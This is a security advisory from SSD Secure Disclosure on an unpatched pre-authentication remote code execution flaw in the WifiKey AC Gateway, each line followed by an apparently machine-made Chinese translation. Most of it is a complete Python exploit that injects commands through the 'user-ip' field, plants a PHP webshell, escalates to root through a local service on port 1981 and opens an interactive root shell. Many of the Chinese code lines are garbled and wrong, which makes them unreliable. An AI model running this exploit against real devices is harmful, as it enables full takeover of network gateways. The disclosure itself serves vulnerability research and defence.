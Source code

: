 

# SSD ADVISORY -WIFI AC 网关预认证 RCE

**Summary 总结**

A vulnerability exists in WifiKey’s AC Gateway allowing remote attackers to trigger a pre-auth RCE vulnerability in the product allowing complete compromise of the device.  
WifiKey 的 AC 网关中存在一个漏洞，使得远程攻击者能够触发产品中的预认证 RCE 漏洞，从而完全危害设备。

**Credit 信用**

An independent security researcher working with SSD Secure Disclosure.  
一个独立的安全研究人员与 SSD 安全披露工作。

**Affected Versions 影响版本**

WifiKey AC Gateway WifiKey AC 网关

**Vendor Response 销售商应答**

We have emailed the vendor and again after 30 days, but have received no response from them. There is no known patch at this time for these vulnerabilities.  
我们已经给供应商发了电子邮件，30 天后又发了一次，但没有收到他们的回复。目前还没有针对这些漏洞的已知修补程序。

**Technical Analysis 技术分析**

The WifiKey AC Gateway includes a file located at `www/portal/ibilling/index.php`, this file is accessible to users without authentication – accessing it shows no information, but inspection of its content will show:  
WifiKey AC 网关包括一个位于 `www/portal/ibilling/index.php` 的文件，用户无需身份验证即可访问该文件 - 访问它不会显示任何信息，但检查其内容将显示：

<?php <？PHP

include('../../config/ibilling.php');  
包含（'../../ php.php'）;

$post = file\_get\_contents("php://input");  
$post = file\_get\_contents（“php：//input”）;

$json = json\_decode($post, true);  
$json = json\_decode（$post，true）;

$type = $json\['type'\]; $type = $json“type”\];

$version = $json\['version'\];  
$version = $json“version”\];

$ip = $json\['user-ip'\]; $json = $json“user-ip'\];

$user = $json\['user-name'\];  
$user = $json \[“user-name”\];

$passwd = $json\['user-passwd'\];  
$passwd = $json“user-passwd”\];

$serial = $json\['serial-no'\];  
$serial = $json“serial-no”\];

$bypass = $json\['bypass'\] ? $json\['bypass'\] : 10;  
$bypass = $json“bypass”\]？$json“bypass”\]：10;

$rep = new Crypt3Des(); $ref = new MyNode（）;

$rep-\>key($CONFIG\_AUTH\_IBILLING\_KEY);  
$rep->key（$CONFIG\_AUTH\_IBILLING\_KEY）;

$radius = new radius(); $currency = new currency（）;

$passwd = $rep-\>decrypt($passwd);  
$passwd = $rep->decrypt（$passwd）;

if ($type == '1') {  
if（$type == '1'）{

if ($radius-\>login($ip, $user, $passwd) != 0) {  
if（$radius->login（$ip，$user，$passwd）！= 0){1}

echo json\_encode(array('error-code' =\> 1, 'error-msg' =\> ($radius-\>error())));  
echo json\_encode (array ('error-code' => 1,'error-msg' =>($radius->error ();

return;  
返回;

}

echo json\_encode(array('type' =\> '2', 'error-code' =\> 0, 'error-msg' =\> 'success', 'serial-no' =\> $serial, 'len' =\> 250));  
echo json\_encode (array ('type' => '2','error-code' => 0,'error-msg' => ' success ','serial-no' => $serial,'len' => 250));

} else if ($type == '3') {  
} else if（$type == '3'）{

if ($radius-\>logout($ip) != 0) {  
if（$radius->logout（$ip）！= 0){1}

echo json\_encode(array('error-code' =\> 1, 'error-msg' =\> ($radius-\>error())));  
echo json\_encode (array ('error-code' => 1,'error-msg' =>($radius->error ();

return;  
返回;

}

echo json\_encode(array('type' =\> '4', 'error-code' =\> 0, 'error-msg' =\> 'success', 'serial-no' =\> $serial, 'len' =\> 250));  
echo json\_encode (array ('type' => '4','error-code' => 0,'error-msg' => ' success ','serial-no' => $serial,'len' => 250));

} else if ($type == '5') {  
} else if（$type == '5'）{

@exec("/usr/hls/bin/arctl -m pass -i $ip -t $bypass", $info);  
@exec（“/usr/hls/bin/arctl -m pass -i $ip -t $bypass”，$info）;

echo json\_encode(array('type' =\> '6', 'error-code' =\> 0, 'error-msg' =\> 'success', 'serial-no' =\> $serial, 'len' =\> 250));  
echo json\_encode (array ('type' => '6','error-code' => 0,'error-msg' => ' success ','serial-no' => $serial,'len' => 250));

}

As you can see the snippet doesn’t require any authorisation, while looking on the file you will notice the `exec` function accepts two parameters `$ip` and `$bypass`. If we change the type value to `5` the user can control the `$ip` value. Since there is no any escaping method we can execute any commands.  
正如你所看到的，这个代码片段不需要任何授权，在查看文件时，你会注意到 `exec` 函数接受两个参数 `$ip` 和 `$bypass` 。如果我们将 type 值更改为 `5` ，则用户可以控制 `$ip` 值。由于没有任何转义方法，我们可以执行任何命令。

**Rooting 生根**

While the above RCE will get you limited access (running as the web user) a service running on the device on port `1981` can be used to gain elevated privileges, this can be simply done by issuing the following command:  
虽然上面的 RCE 将为您提供有限的访问权限（作为 Web 用户运行），但可以使用在端口 `1981` 上的设备上运行的服务来获得提升的权限，这可以通过发出以下命令来简单地完成：

echo tcpdump capture dev lo count 2 expr '$(id>/www/i.txt)'|nc 127.0.0.1 1981  
echo tcpdump capture dev lo count 2 expr '$(id>/www/i.txt)'| 127.0.0.1 1981

**Proof of Concept 概念验证**

#!/usr/bin/python3

import sys

from time import sleep 从时间导入睡眠

import readline 导入读取行

from base64 import b64encode as base64\_encode  
从 base64 导入 b64 encode 作为 base64\_encode

import requests 导入请求

import binascii 进口比纳斯

from requests.packages.urllib3.exceptions import InsecureRequestWarning  
从 requests.packages.urllib3.exceptions 导入 InsecureRequestWarning

requests.packages.urllib3.disable\_warnings(InsecureRequestWarning)  
requests.packages.urllib3.disable\_warnings (InsecureRequestWarning)

ROOT\_SCR = """cat > /tmp/.r << \_EOT  
ROOT\_SCR =“cat > /tmp/.r << \_EOT

#!/bin/sh

touch /tmp/.rdie 触摸/tmp/.rdie

sleep 1 休眠 1

rm -rf /tmp/.rdie /tmp/.r

killall -9 tcpdump tcpdump tcpdump

while true; do 当为真时

if \[ -e /tmp/.rcmd \] && \[ -f /tmp/.rcmd \]; then  
如果\[ -e /tmp/.rcmd \] && \[ -f /tmp/.rcmd \];则

touch /tmp/.cmdout  
触摸/tmp/. xmlout

chmod 777 /tmp/.cmdout  
chmod 777 /tmp/. xmlout

chwon 100:33 /tmp/.cmdout  
chwon 100:33 /tmp/. callout

cat /tmp/.rcmd | sh >>/tmp/.cmdout 2>>/tmp/.cmdout &  
cat /tmp/.rcmd| sh >>/tmp/. cloudout 2>>/tmp/. cloudout &

sleep 1  
休眠 1

rm -rf /tmp/.rcmd

fi

if \[ -e /tmp/.rdie \];then  
如果\[ -e /tmp/.rdie \];则

rm -rf /tmp/.rdie /tmp/.rcmd /tmp/.cmdout  
rm -rf /tmp/.rdie /tmp/.rcmd /tmp/. rcmout

exit 1  
1 号出口

fi

done 做

\_EOT

echo tcpdump capture dev lo count 2 expr '$(cat${IFS}/tmp/.r|sh${IFS}>/dev/null${IFS}2>/dev/null${IFS}&)' | nc 127.0.0.1 1981  
echo tcpdump capture dev lo count 2 expr '$(cat${IFS}/tmp/.r| sh${IFS}>/dev/null${IFS}2>/dev/null${IFS}&)'| 127.0.0.1 1981

echo 'echo Rooted;id;pwd;uname -a' > /tmp/.rcmd

sleep 1 休眠 1

cat /tmp/.cmdout && rm -rf /tmp/.cmdout 2>/dev/null  
cat /tmp/. cloudout && rm -rf /tmp/. cloudout 2>/dev/null

"""

class RouterRCE: 类 RouterRCE：

def \_\_init\_\_(self, target):  
def \_\_init\_\_（self，target）：

self.target = target.strip("/")  
self.target = target.strip（“/”）

payload\_plain = """<?php  
payload\_plain =“"<？PHP

if (isset($\_FILES\['shs'\])) {  
if（$\_FILES\_shs '\]））{

$fname = $\_FILES\['shs'\]\['tmp\_name'\];  
$fname = $\_FILES \[“shs”\]“tmp\_name”\];

echo shell\_exec("sh $fname 2\>&1");  
echo shell\_exec (“sh $fname 2>&1”);

}

if (isset($\_REQUEST\['pc'\])) {  
if（$\_REQUEST\_name '）{

eval($\_REQUEST\['pc'\]);  
return（$\_REQUEST）;

}

if (isset($\_REQUEST\['g'\])) {  
if（$\_REQUEST\_name）{

$c = $\_REQUEST\['g'\];  
$c = $\_REQUEST“g”\];

echo shell\_exec("$c 2\>&1");  
echo shell\_exec ($c 2>&1);

}""" }"””

payload = binascii.hexlify(payload\_plain.encode("latin1"), sep="x").decode()  
payload = binasplane.hexlify (payload\_plain.encode (“latin1”), sep=“x”).decode ()

payload = "x" + payload  
有效载荷=“x” + 有效载荷

payload = payload.replace("x", "\\\\x")  
payload = payload.replace (“x”,“\\\\x”)

self.payload = (  
payload =（

f";echo -e '{payload}' > "  
f”;echo -e“{payload}”>“

"/tmp/.ff;echo tcpdump capture dev lo count 2 expr "  
“/tmp/.ff;echo tcpdump capture dev lo count 2 expr“

"'$(mv${IFS}/tmp/.ff${IFS}/www/ix.php)'|nc 127.0.0.1 1981;"  
“'$（mv${IFS}/tmp/.ff${IFS}/www/ix.php）'| nc 127.0.0.1 1981;”

)

self.headers = {  
self. header = {

"User-Agent": "Mozilla/5.0 (X11; Linux x86\_64; rv:109.0) Gecko/20100101 Firefox/118.0",  
“User-Agent”：“Mozilla/5.0（X11; Linux x86\_64; rv：109.0）Gecko/20100101 Firefox/118.0”，

"Accept": "\*/\*",  
“接受”：“\*/\*"，

"Connection": "close",  
“连接”：“关闭”，

}

def Checker(self):  
define（self）：

r = requests.get(self.target, verify=False, headers=self.headers, timeout=1)  
r = requests.get（self.target，verify=False，headers=self.headers，timeout=1）

if (  
如果（

"<title>碧海威 L7 云路由无线运营版</title>" in r.text

or "<title>WIFISKY 7 层流控路由器</title>" in r.text  
或“WIFISKY 7 流控路由器“在 r.text 中

):

path = requests.get(  
path = requests.get（

self.target + "/portal/ibilling/index.php", verify=False, timeout=1  
self.target“/portal/ibilling/index.php”，verify=False，timeout=1

)

if path.status\_code == 200:  
如果 path.status\_code == 200：

print("Checking is Done..")  
print（“Checking is Done..“）

return True  
返回 True

def exploit(self):  
def exploit（self）：

print("Sending Paylod")  
print（“正在发送工资单”）

r = requests.post(  
2019 - 05 - 25 requests.post01:02

self.target + "/portal/ibilling/index.php",  
self.target“/portal/ibilling/index.php”，

json={"type": "5", "user-ip": self.payload, "bypass": "AAAA"},  
json={“type”：“5”，“user-ip”：self.payload，“bypass”：“AAAA”}，

verify=False,  
verify=False，

headers=self.headers,  
header =self. header，

timeout=1,  
timeout=1，

)

if r.status\_code != 200 or r.text.find("error-code") == \-1:  
if r.status\_code！= 200 或 r.text.find（“error-code”）== -1：

print("Error exploiting target")  
print（“利用目标时出错”）

print(r.status\_code)  
print（r.status\_code）

print(r.text)  
print（r.text）

return False  
返回 False

print(f"Status Code: {r.status\_code}, Response: {r.json()}")  
print（f“状态代码：{r.status\_code}，响应：{r.json（）}”）

print("Verifying webshell...")  
print（“打印 webshell.“）

tot = 30  
总计= 30

c = 0

up = False  
上=假

while c < tot:  
当 c < tot 时：

b = requests.post(  
B = requests.post（

self.target + "/ix.php",  
self.target“/ix.php”，

data={"g": "echo SHELL\_UPLOAD;id;pwd"},  
data={“g”：“echo SHELL\_UPLOAD;id;pwd”}，

verify=False,  
verify=False，

timeout=1,  
timeout=1，

)

if b.status\_code == 200 and b.text.find("SHELL\_UPLOAD") != \-1:  
如果 B.status\_code == 200 且 B.text.find（“SHELL\_UPLOAD”）！= -1：

sys.stdout.write(f"\\nShell confirmed in {c} seconds.\\n")  
sys.stdout.write（f”\\nShell 已在{c}秒内确认。\\ n”）

sys.stdout.flush()  
sys.stdout.flush（）

up = True  
上=真

break  
打破

sys.stdout.write(".")  
sys.stdout.write（“.“）

sys.stdout.flush()  
sys.stdout.flush（）

sleep(1)  
睡眠（1）

c += 1

if not up:  
如果不向上：

return False  
返回 False

print("Shell uploaded.")  
print（“Shell 已上传。“）

return True  
返回 True

def shell(self):  
def shell（self）：

print("\\nStarting shell execution")  
print（“\\n正在启动 shell 执行”）

print("Rooting server")  
print（“根服务器”）

b = requests.post(  
B = requests.post（

self.target + "/ix.php", files={"shs": ROOT\_SCR}, verify=False, timeout=1  
self.target“/ix.php”，files={“shs”：ROOT\_SCR}，verify=False，timeout=1

)

if b.status\_code != 200 or b.text.find("uid=0(root)") == \-1:  
如果 B.status\_code！= 200 或 B.text.find（“uid=0（root）”）== -1：

print("\\n- Rooting the server failed, Please do that manually.")  
print（“\\n-根服务器失败，请手动完成。“）

print(b.status\_code)  
print（B.status\_code）

print(b.text)  
打印（B.文本）

else:  
否则：

print("- Server rooted.")  
print（“-服务器 root。“）

print("+ Debug output: ")  
print（“+“）

print(b.text)  
打印（B.文本）

print("\\nStarting webshell, Use quit to exit.\\n")  
print（“\\n正在启动 webshell，使用 quit 退出。\\ n”）

readline.parse\_and\_bind("set editing-mode emacs")  
readline.parse\_and\_bind（“设置 emacs 编辑模式”）

while True:  
为真时：

cmd = input(f"root@\[{self.target}\]# ")  
cmd = input（f“root@\[{self.target}\]#“）

if cmd.strip() in \["exit", "quit"\]:  
if cmd.strip () in \[“exit”，“quit”\]：

print("Exiting")  
print（“Exiting”）

return True  
返回 True

cmd\_enc = base64\_encode(cmd.encode()).decode()  
cmd\_enc = base64\_encode (cmd.encode ()).decode ()

mycmd = (  
mysql =（

f'$command = base64\_decode("{cmd\_enc}");file\_put\_contents("/tmp/.rcmd", '  
f'$command = base64\_decode（“{cmd\_enc}”）;file\_put\_contents（“/tmp/.rcmd”，'

'"$command\\\\n");sleep(1);echo file\_get\_contents("/tmp/.cmdout");'  
“"$command\\\\n”）;sleep（1）;echo file\_get\_contents（“/tmp/. xmlout”）;“

'file\_put\_contents("/tmp/.cmdout","");'  
“file\_put\_contents（“/tmp/. js”，””）;“

)

b = requests.post(  
B = requests.post（

self.target + "/ix.php", data={"pc": mycmd}, verify=False, timeout=1  
self.target“/ix.php”，data={“pc”：mycmd}，verify=False，timeout=1

)

print(b.text)  
打印（B.文本）

def run(self):  
默认运行（自身）：

if not self.Checker():  
if not self. self（）：

print("Target isn't Vulnerable")  
print（“目标不脆弱”）

return  
返回

print("Target is Vulnerable Sending Payload")  
print（“Target is Vulnerable Sending Payload”）

if not self.exploit():  
如果没有 self.exploit（）：

exit("Exploitation Failed Something is wrong")  
exit（“Exploitation Failed Something is wrong”）

return self.shell()  
return self.shell（）

def usage(): def usage（）：

print(f"\[-\] {sys.argv\[0\]} http(s)://target\_url")  
print（f”\[-\] {sys.argv\[0\]} http（s）：//target\_url”）

def main(): 定义 main（）：

if sys.version\_info\[0\] != 3:  
如果系统版本信息\[0\]！=第三章：

print("Use Python 3 to run this Script.")  
print（“使用 Python 3 运行此脚本。“）

sys.exit(\-1)  
系统退出（-1）

if len(sys.argv) < 2:  
如果 len（sys.argv）< 2：

usage()  
usage（）

sys.exit(\-1)  
系统退出（-1）

RouterRCE(sys.argv\[1\]).run()  
RouterRCE (sys.argv\[1\]）.run（）

if \_\_name\_\_ == "\_\_main\_\_":  
如果\_\_名称\_\_ ==“\_\_主要\_\_"：

try:  
尝试：

main()  
主要（）

except KeyboardInterrupt:  
键盘中断除外：

print("\*CRT+C Received.\* ====> Aborting")  
print（“\*CRT+C 已接收。\* =>正在中止”）

sys.exit(\-1)  
系统退出（-1）
